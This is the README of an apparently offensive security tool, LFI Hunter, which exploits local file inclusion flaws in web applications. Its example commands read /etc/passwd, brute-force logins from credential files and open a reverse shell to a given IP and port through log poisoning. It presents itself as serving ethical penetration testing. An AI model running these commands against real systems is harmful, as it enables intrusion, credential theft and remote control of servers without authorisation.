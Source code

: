 #  LFI Hunter

## Overview

**LFI Hunter** is a command-line tool for testing and exploiting Local File Inclusion (LFI) vulnerabilities in web applications. This tool is designed to assist ethical hackers and security researchers in assessing web application security by exploiting file inclusion vulnerabilities in a controlled environment.

## Features

- **Command-line Interface**: User-friendly interface with various options.
- **Authentication Support**: Test areas requiring login credentials.
- **File Reading**: Attempt to read sensitive files from the target machine.
- **Parameter Fuzzing**: Test for injection vulnerabilities.
- **Reverse Shell Setup**: Establish a reverse shell connection for deeper access.

## Installation

To use LFI Hunter, clone the repository from GitHub:

```bash
git clone https://github.com/jac11/LFI_Hunter.git
cd LFI_Hunter
```

## Usage

The basic syntax for running LFI Hunter is:

```bash
LFI_Hunter [OPTIONS]
```

### Options

| Option                  | Description                                                                                     |
|-------------------------|-------------------------------------------------------------------------------------------------|
| `-h`, `--help`          | Show help message and exit.                                                                    |
| `--man`                 | Show the man page.                                                                             |
| `-UV`, `--Vulnurl`      | Target URL for the vulnerable web application.                                                 |
| `--auth`                | Enable authentication mode.                                                                    |
| `-F`, `--filelist`      | Read from an LFI wordlist file.                                                                |
| `-C`, `--Cookie`        | Provide the login session cookie.                                                              |
| `-B`, `--base64`        | Enable decoding of base64-filtered PHP code.                                                   |
| `-R`, `--read`          | Specify a file to read from the target machine.                                                |
| `-UF`, `--UserForm`     | Specify the HTML login form username field.                                                    |
| `-PF`, `--PassForm`     | Specify the HTML login form password field.                                                    |
| `-P`, `--password`      | Specify a password for login attempts.                                                         |
| `-p`, `--readpass`      | Read a password from a file.                                                                   |
| `-LU`, `--loginurl`     | Provide the login URL for authentication mode.                                                 |
| `-U`, `--user`          | Specify a username for login attempts.                                                         |
| `-u`, `--readuser`      | Read a username from a specified file.                                                         |
| `-A`, `--Aggressiv`     | Enable aggressive mode to increase request speed.                                              |
| `-S`, `--shell`         | Set up a reverse shell connection to a specified IP address.                                   |
| `--port PORT`           | Set the port for netcat or reverse shell connections.                                          |
| `-Z`, `--fuzzing`       | Enable brute-force or fuzzing mode for parameter testing.                                      |
| `--config FILE`         | Use a configuration file with predefined options.                                              |


### Key Options for Authentication

1. **Enabling Authentication**:
   - `--auth`: Enables authentication mode, allowing the tool to access restricted areas of the application that require user login.

2. **Session Cookies**:
   - `-C, --Cookie`: Specify a file containing the session cookie necessary for maintaining an authenticated session.
   - **Example**:
     ```bash
     LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt --auth
     ```

3. **Login URL**:
   - `-LU, --loginurl`: Specifies the URL of the login page.
   - **Example**:
     ```bash
     LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt --auth -LU http://example.com/login
     ```

4. **Username and Password Fields**:
   - `-UF, --UserForm`: Specify the HTML form field name for the username input.
   - `-PF, --PassForm`: Specify the HTML form field name for the password input.
   - **Example**:
     ```bash
     LFI_Hunter -LU http://example.com/login -UV http://example.com/vulnerable_path?file= -C session_cookie.txt --auth -UF username_field -PF password_field
     ```

5. **Direct Username and Password Input**:
   - `-U, --user`: Specify a username directly for login attempts.
   - `-P, --password`: Specify a password directly for login attempts.
   - **Example**:
     ```bash
     LFI_Hunter -LU http://example.com/login -UV http://example.com/vulnerable_path?file= -C session_cookie.txt --auth -U admin -P mypassword
     ```

6. **Reading from Files**:
   - Users can read usernames and passwords from files using `-u, --readuser` and `-p, --readpass`, which is useful for testing multiple credentials in an automated fashion.

### Benefits of Using Aggressive Mode

Using LFI Hunter's aggressive mode in authentication offers several advantages:

1. **Increased Request Speed**:
   - Sends a higher volume of requests quickly, useful when testing multiple file inclusion points.

2. **Enhanced Payload Variation**:
   - Tests various payloads rapidly to identify vulnerabilities that may not be apparent with standard methods.

3. **Response Length Comparison**:
   - Analyzes response lengths to detect successful file inclusions, indicating different data has been read from the server.

4. **Efficiency in Controlled Environments**:
   - Ideal for environments where extensive testing is permitted without risking disruption to production systems.

5. **Automation of Testing**:
   - Suitable for automated scripts and CI/CD pipelines, providing quick feedback on security vulnerabilities.

6. **Comprehensive Vulnerability Detection**:
   - Uncovers hidden vulnerabilities that might be missed during slower testing approaches.

### Example Usage of Aggressive Mode

To utilize aggressive mode while handling authentication, you might run a command like:

```bash
LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt --auth -A -LU http://example.com/login.php -U admin -P password
```

In this command:
- `-A` activates aggressive mode.
- `--auth` allows interaction with authenticated sections of the application.
### Examples

1. **Basic URL Scan with Authentication**:
   ```bash
   LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt --auth -A -LU http://example.com/login.php -U admin -P password
   ```

2. **Use Base64 Decoding**:
   ```bash
   LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt -B -Z
   ```

3. **Read /etc/passwd File**:
   ```bash
   LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt -R /etc/passwd
   ```

4. **Setup Reverse Shell**:
   ```bash
   LFI_Hunter -UV http://example.com/vulnerable_path?file= -C session_cookie.txt -R /var/log/auth.log -S 192.168.0.10 --port 5555
   ```


## Files

- **config.txt**: Configuration file storing default options, useful for automation.
- **lfi_wordlist.txt**: Wordlist for common paths and filenames used in LFI testing.
- **fuzz_params.txt**: Wordlist for parameter fuzzing.

## Author

Developed by jac11. For issues or contributions, visit the [GitHub repository](https://github.com/jac11/LFI_Hunter).

## License

LFI Hunter is licensed for user use only, with no permission to modify any source code.

---

This README provides a comprehensive overview of how to install and use LFI Hunter effectively while highlighting its capabilities regarding authentication and aggressive mode operations.
